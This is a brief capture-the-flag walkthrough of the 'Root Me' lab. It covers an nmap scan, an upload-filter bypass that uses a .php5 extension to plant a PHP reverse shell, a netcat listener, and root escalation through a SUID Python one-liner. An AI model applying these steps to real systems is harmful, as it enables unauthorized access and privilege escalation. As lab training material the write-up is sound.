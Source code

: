 # Root Me




## Scanning (`sudo nmap -sC -sV -oN nmap/initial 10.10.56.239`)

```
80
22
```


## Questions and Answers

* Apache is running `2.4.29` version

* `/panel/` is the hidden directory


* `find / -type f -name user.txt 2>/dev/null` to find user.txt file that contains the flag

* `usr/bin/python` has SUID permissions, this is strange because we could run a malicious python script with SUID permissions

* `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'` used to escalate privilege to root user

* `find / -type f -name root.txt 2>/dev/null` to find root.txt file that contains the flag




## Hints

* `/panel` does not accept .php files, but accepts `.php5`, thats how i bypassed the upload filter

* Got shell when uploading a php reverse shell and using `sudo nc -nlvp 1234` to listen on port 1234

* `find / -perm -u=s -type f 2>/dev/null` searches for files with SUID permissions

* https://gtfobins.github.io/gtfobins/python/#suid
